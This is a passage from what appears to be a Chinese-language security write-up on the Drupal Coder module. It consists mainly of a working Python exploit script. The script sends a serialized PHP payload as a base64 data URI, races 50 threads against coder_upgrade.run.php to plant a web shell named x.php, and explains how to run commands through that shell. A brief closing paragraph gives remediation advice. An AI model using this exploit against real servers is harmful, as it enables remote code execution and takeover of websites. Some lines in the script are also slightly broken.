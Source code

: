 ```
payload = "data://text/plain;base64," + base64.b64encode("a:7:`{`s:5:"paths";a:3:`{`s:10:"files_base";s:28:"../../../../../default/files";s:14:"libraries_base";s:21:"../../../../libraries";s:12:"modules_base";s:8:"../../..";`}`s:9:"variables";a:0:`{``}`s:11:"theme_cache";s:0:"";s:8:"upgrades";a:1:`{`s:20:"race-execpoisonedlog";a:3:`{`s:6:"module";s:20:"race-execpoisonedlog";s:4:"path";s:42:"../../../../../default/files/coder_upgrade";s:5:"files";a:1:`{`i:0;s:10:"memory.txt";`}``}``}`s:10:"extensions";a:1:`{`s:11:"placeholder";s:0:"";`}`s:5:"items";a:1:`{`s:11:"placeholder";s:0:"";`}`s:5:"usage";s:116:"&lt;?php file_put_contents('x.php','&lt;?php print nl2br(htmlentities(shell_exec($_GET[1]))); ?&gt;');chmod('x.php',0755); ?&gt;";`}`")
 
#Check whether the exploit has succeeded (i.e. whetherr the dropped shell exists)
def checkSuccess():
 result = False
 urlReader = urllib.urlopen(target + "/sites/all/modules/coder/coder_upgrade/scripts/x.php")
 if urlReader.getcode() == 200:
  result = True
 urlReader.close()
 return result
 
#Attack thread
def attackThread():
 #Poison memory.txt and trigger the LFI until the race condition triggers and the shell is dropped
 while checkSuccess() == 0:
  urlReader = urllib.urlopen(target + "/sites/all/modules/coder/coder_upgrade/scripts/coder_upgrade.run.php?" + urllib.urlencode(`{`"file": payload`}`))
  response = urlReader.read()
  urlReader.close()
 
#Spawn a load of threads in an attempt to trigger the race condition, then wait for them all to complete
attackThreads = []
for i in range(50):
 attackThreads.append(threading.Thread(target = attackThread))
 attackThreads[i].start()
for i in range(50):
 attackThreads[i].join()
 
#Done.
print "Exploit successful!"
print "A command shell should be available now at " target + "/sites/all/modules/coder/coder_upgrade/scripts/x.php"
print "Pass commands to execute via the '1' GET parameter e.g. ?1=ls"
```





在安全咨询发布之后，一位名叫Mehmet Ince (@mdisec)的研究员对该模块做了进一步分析（文章发表在土耳其），并且利用 shell_exec() 的调用发现了一条更好地到达RCE的路径。<br>

修复

脆弱的 PHP 脚本存在固有的危险性，本不应该发布到服务器中，所以理想情况下应该从所有的生产服务器上删除编码器模块；或者将该模块更新到版本 7.x 版-1.3 或 7.x 2.6 。


